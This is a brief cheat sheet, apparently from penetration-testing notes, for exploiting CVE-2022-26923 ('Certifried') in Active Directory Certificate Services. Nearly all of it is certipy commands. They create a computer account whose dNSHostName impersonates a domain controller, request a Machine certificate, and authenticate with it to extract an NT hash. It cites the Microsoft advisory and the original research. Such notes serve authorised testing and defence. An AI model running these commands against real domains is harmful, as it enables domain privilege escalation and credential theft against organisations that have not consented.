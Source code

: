 ### Prerequisites
```
WriteACL on computeraccount
Existence of machine certificate template
```

### Create computeraccount and change dNSHostName attribute to domainController.domain:
```
certipy account create '<domain>/<user>:<password>@<fqdnDomainController>' -user '<newComputer>' -dns '<fqdnDomainController>'
```

### Request certificate
```
certipy req '<domain>/<user>:<password>@<fqdnDomainController>' -ca '<certificateAuthority>' -template 'Machine'
```

### Get NT hash
```
$> certipy auth -pfx '<file>.pfx' -username '<user>' -domain '<domain>' -dc-ip <domainController>
```

### References
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923
https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

